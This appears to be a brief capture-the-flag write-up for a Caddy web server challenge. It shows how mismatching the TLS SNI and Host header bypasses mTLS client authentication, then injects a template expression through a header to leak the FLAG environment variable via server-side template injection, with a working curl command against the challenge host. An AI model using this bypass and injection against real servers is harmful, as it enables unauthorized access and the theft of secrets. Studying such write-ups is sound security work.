 # Ez ⛳ v3 

Set `SNI=public` and `Host: private` to bypass `client_auth` (mTLS).

Then use `/fetch/headers` and add header ```Anything: {{ env `FLAG` }}``` to get flag, note `"` and `'` will not work due to quoting.
Note: `httpInclude` will weirdly do another server-side rendering i.e. SSTI, see <https://github.com/caddyserver/caddy/blob/d57ab215a2f198a465ea33abe4588bb5696e7abd/modules/caddyhttp/templates/tplcontext.go#L211>

```bash
curl -sk 'https://public.caddy.chal-kalmarc.tf/fetch/headers' -H 'Host: private.caddy.chal-kalmarc.tf' -H 'Anything: {{ env `FLAG` }}'
```

